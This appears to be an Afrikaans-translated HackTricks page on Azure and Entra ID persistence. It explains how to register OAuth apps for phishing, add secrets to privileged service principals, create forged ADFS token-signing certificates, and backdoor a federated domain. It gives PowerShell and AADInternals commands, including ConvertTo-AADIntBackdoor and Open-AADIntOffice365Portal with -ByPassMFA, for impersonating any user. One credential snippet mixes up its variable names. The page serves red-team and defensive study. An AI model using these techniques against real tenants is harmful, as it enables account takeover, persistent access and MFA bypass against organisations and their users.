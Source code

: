 # Az - Persistensie

{{#include ../../../banners/hacktricks-training.md}}

### OAuth Toepassing

Deur die standaard kan enige gebruiker 'n toepassing in Entra ID registreer. So kan jy 'n toepassing registreer (slegs vir die teiken huur) wat hoë impak toestemmings benodig met administratorkonsent (en dit goedkeur as jy die admin is) - soos om e-pos namens 'n gebruiker te stuur, rolbestuur, ens. Dit sal ons toelaat om **phishing-aanvalle** uit te voer wat baie **vrugbaar** sal wees in die geval van sukses.

Boonop kan jy ook daardie toepassing met jou gebruiker aanvaar as 'n manier om toegang daaroor te behou.

### Toepassings en Diens Prinsipale

Met voorregte van Toepassing Administrateur, GA of 'n pasgemaakte rol met microsoft.directory/applications/credentials/update toestemmings, kan ons kredensiale (geheime of sertifikaat) aan 'n bestaande toepassing voeg.

Dit is moontlik om 'n **toepassing met hoë toestemmings** te **teiken** of 'n **nuwe toepassing** met hoë toestemmings toe te voeg.

'n Interessante rol om by die toepassing te voeg, sou die **Privileged authentication administrator role** wees, aangesien dit toelaat om die **wagwoord te herstel** van Globale Administrators.

Hierdie tegniek laat ook toe om **MFA te omseil**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Vir sertifikaat-gebaseerde outentisering
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federasie - Token Onderteken Sertifikaat

Met **DA bevoegdhede** op on-prem AD, is dit moontlik om **nuwe Token onderteken** en **Token Decrypt sertifikate** te skep en in te voer wat 'n baie lang geldigheid het. Dit sal ons in staat stel om **in te log as enige gebruiker** wie se ImuutableID ons ken.

**Voer** die onderstaande opdrag uit as **DA op die ADFS bediener(s)** om nuwe sertifikate te skep (standaard wagwoord 'AADInternals'), voeg dit by ADFS, deaktiveer outomatiese hernuwing en herbegin die diens:
```bash
New-AADIntADFSSelfSignedCertificates
```
Dan, werk die sertifikaatinligting met Azure AD op:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasie - Betroubare Domein

Met GA-privileges op 'n tenant, is dit moontlik om 'n **nuwe domein** toe te voeg (moet geverifieer word), sy autentikasietipe na Federated te konfigureer en die domein te **vertrou op 'n spesifieke sertifikaat** (any.sts in die onderstaande opdrag) en uitreiker:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Verwysings

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}

